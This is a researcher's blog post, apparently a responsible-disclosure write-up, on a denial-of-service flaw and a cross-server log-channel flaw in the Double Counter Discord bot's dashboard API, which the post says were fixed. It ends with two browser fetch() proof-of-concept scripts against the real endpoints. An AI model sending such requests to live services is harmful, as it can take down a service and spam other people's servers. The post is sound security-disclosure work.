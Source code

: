 +++
title = 'Log Anywhere & Simple DOS - Double Counter Vulnerabilities'
date = 2025-08-19T21:54:28Z
draft = false
+++

# Log Anywhere & Simple DOS - Double Counter Vulnerabilities

Before I start, I'll provide some context: Double Counter is an anti-alt bot for the messaging app Discord, where users can verify themselves through their service, and server owners can configure and set up Double Counter for their server. It is frequently given full administrator access, meaning it has a ton of trust by default; this is bad when the bot is influenced by an attacker. It runs on a parent company (which the owner of Double Counter also owns), Tellter, and the Double Counter APIs are on their servers.

## TL;DR:

While the service enforces strict checks on the Discord server ID that configurations apply to when changing settings, they had essentially nonexistent checks on everything else. This let me set the log channel IDs (which are unique, and if not enforced by the Discord bot, is about the same as applying configurations for a different server) for a different channel in another server that the DC bot is in. From there, you can just verify, and logs go to the other channel. It's not a crazy vulnerability, but it’s more common than one might think in other bots.

Also, there was a DOS vulnerability where the server errored when you tried to make premium configuration requests when you didn't own a server with premium; 5 or 10 of those could crash the Dyno (what Heroku calls their containers) for Tellter.

## Doxr's Severeness Rating:

End Users affected: [Easily over a million](https://doublecounter.gg/), 500k servers using DC with multiple people, probably.

Doxr's Rating: 6.5/10

Why: The DOS makes the dashboard/configuations impossible (backend service down) and distributed logging spam could be introduced, especially when botting is taken advantage of.

## Why I started

I really like pentesting Discord Bots, specifically bots made for server management, because: 

1. They were made by normal people instead of corporations
2. Are often WAY overprivilaged, usually with admin permissions for convenience of the developer
3. Usually have an external management and configuration dashboard, which you can pentest easily

DC is one of those bots that requests administrator permissions by default (but to be fair, even if it didn’t, it would need a lot of the high privilege, abusable permissions), and has had prior vulnerabilities with writeups that are now fixed. One vulnerability, specifically, is IDOR relating to changing the server ID when configuring, which is why all requests had a strict check on the server ID.

## DOS Vulnerability

The way I found the DOS vulnerability was pretty simple. I wanted to check if premium configuration locks (which are behind a paywall) are client-side only, so I removed the overlay that prevented me from using the premium configurations UI. From there, I tried changing something, saving, and I saw that I didn't get a 403 error, like I expected. Instead of rejecting the request and handling the issue gracefully, the request spent an abnormally long time resolving, and gave me a 500 (server error) instead.

I thought I could trick it into letting me set premium configs through a race-condition-type attack, so I just sent a bunch of the same request (the one that caused a 500) like 5 or 10 times, and to my surprise, the Dyno died and I was met with a Heroku error page. This meant I could take down the dashboard API globally and stop anyone from configuring DC settings (an act of true evil 👻), with a single machine and only a couple requests.

## Log Anywhere

This one is cooler than the DOS, in my opinion.

![picture of random logs in a read-only welcome channel](../../interstellar-logs.png)

This is a screenshot of Double Counter spitting random internal logs when I verified in my test server, to a read-only welcome channel in a server that someone else owns and has Double Counter on.

I already explained how it worked in the TL;DR, but the true vulnerability here is that the scope of the channel IDs wasn't limited to the server, it was global. However, it's really just one simple fix, and this doesn't really matter in the grand scheme of everything DC, but it still isn't a good idea to let anyone be able to make any channel on a DC server (including the official server and 500k+ other servers) a logging channel, which is kind of spammy.

## Reporting

This was an interesting report, because I worked directly with the owner to get it fixed, and got a cash reward for it. After sending weird logs to the official server, the DC owner and some other mods got involved, and we got it fixed the very same day (also mixed with a little bit of trolling the mods). However, the owner was really reactive, and gave us a reward for the vulnerability, saying: 

> It's normal, that's how you treat people who help instead of destroying things 😄
> It should be the norm everywhere

Which I would say is pretty cool. AND to add onto that, DC gave us free premium on the testing server I used to try to escalate the vuln (I couldn't), which was pretty nice.

## PoCs:

These PoCs are pretty simple and run on the browser; you just need to log into the Double Counter dashboard for the auth header:

DOS Script (used to DOS by running like 5 or 10 times):

```
fetch("https://integrations.tellter.com/dashboard/premium_info", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9",
    "authorization": "Bearer ***", // replace auth here
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not:A-Brand\";v=\"24\", \"Chromium\";v=\"134\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site"
  },
  "referrer": "https://dashboard.doublecounter.gg/***/premium",
  "referrerPolicy": "unsafe-url",
  "body": "{\"custom\":\"hello!\",\"serverId\":\"[your server ID]\"}",
  "method": "PATCH",
  "mode": "cors",
  "credentials": "include"
});
```

Log Anywhere Script:

```
fetch("https://integrations.tellter.com/dashboard/server_settings", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9",
    "authorization": "Bearer ***",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not:A-Brand\";v=\"24\", \"Chromium\";v=\"134\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site"
  },
  "referrer": "https://dashboard.doublecounter.gg/1321684596517244939/preferences",
  "referrerPolicy": "unsafe-url",
  "body": "{\"verification_channel\":\"[target channel]\",\"verification_role\":\"[configure a real verification role in your server here]\",\"log_channel\":\"[target channel]\",\"serverId\":\"[attacker DC server]\"}",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

## Conclusion

Finding vulns in Discord bots is an untapped market; the trolling potential is insane, and in some cases, it's easy to pentest too. Also, software owners should aspire to be like the DC owner, who treats reports like help instead of a threat.

- doxr
